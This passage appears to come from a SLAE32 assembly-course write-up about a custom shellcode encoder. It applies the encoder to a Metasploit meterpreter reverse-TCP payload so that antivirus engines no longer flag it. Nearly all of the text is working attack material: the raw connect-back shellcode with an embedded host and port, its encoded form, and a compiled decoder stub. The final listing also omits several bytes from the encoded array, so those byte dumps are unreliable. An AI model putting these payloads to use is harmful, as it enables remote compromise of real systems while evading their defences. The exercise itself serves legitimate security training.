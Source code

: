 When submitted on VirusTotal, the meterpreter payload was picked up by a few AV engines:

![](/assets/images/custom-encoder/msfpayload_plain.png)

Encoded version
---------------

Next, the same payload was encoded with the custom encoder:

```
slemire@slae:~/slae32/assignment4$ ./encoder.py msf_met_reversetcp.txt 
[+] Shellcode not 4 bytes aligned, adding 1 \x90 bytes of padding...
[+] Original shellcode (len: 124): \x6a\x0a\x5e\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0\x66\x89\xe1\xcd\x80\x97\x5b\x68\xac\x17\x0a\x28\x68\x02\x00\x11\x5c\x89\xe1\x6a\x66\x58\x50\x51\x57\x89\xe1\x43\xcd\x80\x85\xc0\x79\x19\x4e\x74\x3d\x68\xa2\x00\x00\x00\x58\x6a\x00\x6a\x05\x89\xe3\x31\xc9\xcd\x80\x85\xc0\x79\xbd\xeb\x27\xb2\x07\xb9\x00\x10\x00\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd\x80\x85\xc0\x78\x10\x5b\x89\xe1\x99\xb6\x0c\xb0\x03\xcd\x80\x85\xc0\x78\x02\xff\xe1\xb8\x01\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\x90
[+] Encoded shellcode (len: 159): \x44\x75\x1a\x4e\x2e\x96\xc5\x75\x61\x4d\xcc\xce\xa6\x9f\x8f\xb4\x55\x3d\xd2\x04\x28\x73\xbf\xa8\xe5\xca\xc0\xdd\x66\xa2\xb1\xb1\xb3\xd9\x99\xf0\x11\x79\xac\xe1\x23\x73\x7b\x45\x49\x40\xa1\xc9\x17\x11\xdf\x5a\x5f\x12\x9c\x4b\x05\x52\x32\x8b\xa9\x0b\xc1\x94\xdd\x0a\x52\x0a\x0a\x0a\xb7\xb2\xdd\xb7\xdd\x07\xce\x36\xe4\x8e\xf6\x36\x73\x76\x3b\x45\x62\xae\xf8\x3c\x24\x24\x9d\x23\x96\x9c\x15\x9c\x9c\x8c\xf7\xfb\x1c\x36\x14\x38\x88\x34\xdb\xf9\xcf\x4a\x4f\x02\xb2\x72\x29\x62\x0a\xb2\x88\x3e\x11\x69\x01\x3b\xf6\x38\x8b\x37\x8c\xf4\x4c\x09\x0c\x35\x8d\xd4\xca\x37\xa9\xa9\xa9\xa9\xa8\x65\x65\x65\x64\xde\x9b\x0b\x1b\x56\x9b\x90\x90\xaa\xaa
[+] Encoded shell in NASM format: 0x44,0x75,0x1a,0x4e,0x2e,0x96,0xc5,0x75,0x61,0x4d,0xcc,0xce,0xa6,0x9f,0x8f,0xb4,0x55,0x3d,0xd2,0x04,0x28,0x73,0xbf,0xa8,0xe5,0xca,0xc0,0xdd,0x66,0xa2,0xb1,0xb1,0xb3,0xd9,0x99,0xf0,0x11,0x79,0xac,0xe1,0x23,0x73,0x7b,0x45,0x49,0x40,0xa1,0xc9,0x17,0x11,0xdf,0x5a,0x5f,0x12,0x9c,0x4b,0x05,0x52,0x32,0x8b,0xa9,0x0b,0xc1,0x94,0xdd,0x0a,0x52,0x0a,0x0a,0x0a,0xb7,0xb2,0xdd,0xb7,0xdd,0x07,0xce,0x36,0xe4,0x8e,0xf6,0x36,0x73,0x76,0x3b,0x45,0x62,0xae,0xf8,0x3c,0x24,0x24,0x9d,0x23,0x96,0x9c,0x15,0x9c,0x9c,0x8c,0xf7,0xfb,0x1c,0x36,0x14,0x38,0x88,0x34,0xdb,0xf9,0xcf,0x4a,0x4f,0x02,0xb2,0x72,0x29,0x62,0x0a,0xb2,0x88,0x3e,0x11,0x69,0x01,0x3b,0xf6,0x38,0x8b,0x37,0x8c,0xf4,0x4c,0x09,0x0c,0x35,0x8d,0xd4,0xca,0x37,0xa9,0xa9,0xa9,0xa9,0xa8,0x65,0x65,0x65,0x64,0xde,0x9b,0x0b,0x1b,0x56,0x9b,0x90,0x90,0xaa,0xaa
```

The shellcode is added to the decoder stub assembly file, compiled and linked:

```
slemire@slae:~/slae32/assignment4$ ../compile.sh stub_decoder
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Shellcode: \xeb\x57\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x5e\xbf\x90\x90\xaa\xaa\x83\xec\x7f\x83\xec\x7f\x83\xec\x7f\x83\xec\x7f\x8a\x5c\x16\x01\x8a\x7c\x16\x02\x8a\x4c\x16\x03\x8a\x6c\x16\x04\x32\x1c\x16\x32\x3c\x16\x32\x0c\x16\x32\x2c\x16\x88\x2c\x04\x88\x4c\x04\x01\x88\x7c\x04\x02\x88\x5c\x04\x03\x39\x7c\x16\x05\x74\x0a\x42\x42\x42\x42\x42\x83\xc0\x04\x75\xc5\xff\xe4\xe8\xa4\xff\xff\xff\x44\x75\x1a\x4e\x2e\x96\xc5\x75\x61\x4d\xcc\xce\xa6\x9f\x8f\xb4\x55\x3d\xd2\x04\x28\x73\xbf\xa8\xe5\xca\xc0\xdd\x66\xa2\xb1\xb1\xb3\xd9\x99\xf0\x11\x79\xac\xe1\x23\x73\x7b\x45\x49\x40\xa1\xc9\x17\x11\xdf\x5a\x5f\x12\x9c\x4b\x05\x52\x32\xa9\x0b\xc1\x94\xdd\x0a\x52\x0a\x0a\x0a\xb7\xb2\xdd\xb7\xdd\x07\xce\x36\xe4\x8e\xf6\x36\x73\x76\x3b\x45\x62\xae\xf8\x3c\x24\x24\x9d\x23\x96\x9c\x15\x9c\x9c\x8c\xf7\xfb\x1c\x36\x14\x38\x88\x34\xdb\xf9\xcf\x4a\x4f\x02\xb2\x72\x29\x62\x0a\xb2\x88\x3e\x11\x69\x01\x3b\xf6\x38\x8b\x37\x8c\xf4\x4c\x09\x0c\x35\x8d\xd4\xca\xa9\xa9\xa9\xa9\xa8\x65\x65\x65\x64\xde\x9b\x1b\x56\x9b\x90\x90\xaa\xaa
[+] Length: 250
[+] Done!
```
